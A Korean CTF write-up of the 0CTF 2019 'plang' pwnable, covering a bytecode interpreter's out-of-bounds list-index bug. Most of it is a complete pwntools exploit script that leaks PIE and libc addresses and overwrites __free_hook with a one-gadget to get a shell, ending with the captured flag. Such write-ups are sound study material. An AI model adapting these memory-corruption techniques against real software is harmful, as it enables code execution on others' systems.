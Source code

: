 ```yaml
---
layout:     post
title:      "0CTF 2019 plang write-up"
subtitle:   "0ctf 2019 pwnable"
date:       2019-08-07
author:     "NextLine"
header-img: "img/post-bg-2.png"
tags:
    - WriteUp
---
```


# 0CTF 2019 plang write-up

### 1. Intro

약간 자바스크립트 엔진 익스하는거랑 비슷해서 재미있게 풀었다.


### 2. Binary

```
YoungJoo_MacBook_Pro # plang$ ls
grammar.md libc-2.27.so* plang* poc
```

문제에서는 문법에 관한 설명과 취약점을 트리거 할 수 있는 poc가 주어졌다.

```c
unsigned __int64 __fastcall cli_mode()
{
  _DWORD *v0; // rdx
  _QWORD *idx; // [rsp+8h] [rbp-428h]
  char buf[1024]; // [rsp+20h] [rbp-410h]
  unsigned __int64 v4; // [rsp+428h] [rbp-8h]
  v4 = __readfsqword(0x28u);
  for ( idx = run_init(); ; run(idx, 5u, v0, buf) )
  {
    printf("> ");
    if ( !fgets(buf, 0x400, stdin) || !memcmp(buf, "exit", 4uLL) )
      break;
    v0 = cli_error(idx, "cli", 3u);
  }
  sub_B091(idx);
  return __readfsqword(0x28u) ^ v4;
}
```

plang의 핵심 로직은 처음에 함수들을 초기화 하고 한줄씩 파싱해서 바이트코드로 변환하고 실행하는 인터프리터이다.


### 3. Vulnerability

```
var a = "This is a PoC!"
System.print(a)
var b = [1, 2, 3]
b[0x80000000] = 0x123
```

poc 파일을 보면 list에 접근할 때 크래시가 발생하는 것을 알 수 있다. (out-of-bounds)


### 4. Exploit

파싱이나 실행에는 특별히 취약점이 없을것 같아서 분석을 안하고 함수 실행 위주로 분석했다. (poc가 있으므로 다른곳에서는 취약점이 없을거라 판단)
1. oob가 극히 제한적이므로 (0x10바이트 / type(8) value(8)) 덮을 구조체를 먼저 찾았다.
2. 문자열을 다루는 구조체의 size를 큰 값으로 덮어 oob를 내고 libc를 leak했다.
3. 문자열을 가지고 있는 list를 만들어 list안에 있는 문자열의 포인터를 freehook으로 덮었다.
4. 이후 freehook에 원샷을 쓰고 free하면 끝.

한가지 재밌는점은 oob를 통해 값을 넣을때 메모리에 double로 들어가 제대로 사용하기 힘들었는데, 숫자를 계속해서 10으로 나누다 보면 10e-5 이런식의 값이 생성되어 우리가 원하는 값을 만들 수 있었다.

```python
#from ntpwn import *
from pwn import *
from struct import pack, unpack
LOCAL = 0
def conn():
    if LOCAL:
        s = process('./plang')
        #b = NT(s)
        #b.tracemalloc()
        #b.bp(0xf9d3)
        #b.bp(0x102CC)
        #b.bp(0x10496) # b[-1234] = 1
        #b.bp(0x105d1) # list.count
        #b.bp(0xFA61) # string.count
        #b.bp(0x1056C) # clear
        #b.end()
    else:
        s = remote('111.186.63.210',6666)
    return s
s = conn()
sla = s.sendlineafter
sa = s.sendafter
def go(cmd):
    sla('> ', str(cmd))
def trans(val):
    f = `unpack("<d", pack("<Q", val))[0]`
    f1 = f[:f.index("e")]
    f2 = f[f.index("e")+2:]
    return (f1, int(f2))
def makeVal(val):
    tmp = trans(val)
    aa = tmp[0]
    bb = tmp[1]
    go('var v=%s' % str(aa))
    go('var idx=0')
    go('while(idx<%d) {idx=idx+1 v=v/10}' % bb)
def makeVal2(val):
    tmp = trans(val)
    aa = tmp[0]
    bb = tmp[1]
    go('var v2=%s' % str(aa))
    go('var idx2=0')
    go('while(idx2<%d) {idx2=idx2+1 v2=v2/10}' % bb)
def makeVal3(val):
    tmp = trans(val)
    aa = tmp[0]
    bb = tmp[1]
    go('var v3=%s' % str(aa))
    go('var idx3=0')
    go('while(idx3<%d) {idx3=idx3+1 v3=v3/10}' % bb)
l = ELF('libc-2.27.so')
makeVal(0x1000000000000)
go('var a = "AAAAA"')
go('var b = [1,2,3,4]')
go('b[-67] = v')
go('System.print(a.byteCount_)')
go('var idx=0')
go('while( idx < 6){System.print(a[0x58+idx]) idx=idx+1 }')
pie = ''
for i in range(6):
    pie += s.recvline()[:-1]
pie = u64(pie + "\x00" * 2)
s.info("pie @ " + hex(pie))
go('var c={"asdf":"bbbb", "ff":1234}')
go('c.clear()')
go('System.print(c)')
go('var idx=0')
go('while( idx < 6){System.print(a[0x1738+idx-0x20]) idx=idx+1 }')
libc = ''
for i in range(6):
    libc += s.recvline()[:-1]
libc = u64(libc + "\x00" * 2) - 0x3edd37
s.info("libc @ " + hex(libc))
pause()
makeVal2(libc+l.symbols['__free_hook']+0x30-8)
go('var b3 = ["EEEEFFFF"]')
go('var b2 = [1,2,3,4]')
go('b3.count')
go('b2[-48] = v2')
makeVal3(libc + 0x4f322)
go('b3[-3] = v3')
# flag{Th1s_language_is_4_bit_p00r}
s.interactive()
```
